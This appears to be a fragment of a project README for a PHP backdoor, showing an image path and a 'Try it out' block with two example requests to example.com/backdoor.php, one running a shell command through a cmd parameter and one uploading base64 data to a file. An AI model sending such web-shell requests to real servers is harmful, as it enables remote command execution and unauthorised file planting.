 ### 👉🏻 Try it out

```shell
http://example.com/backdoor.php?cmd=ls
http://example.com/backdoor.php?upload=base64_data&file=test.txt
```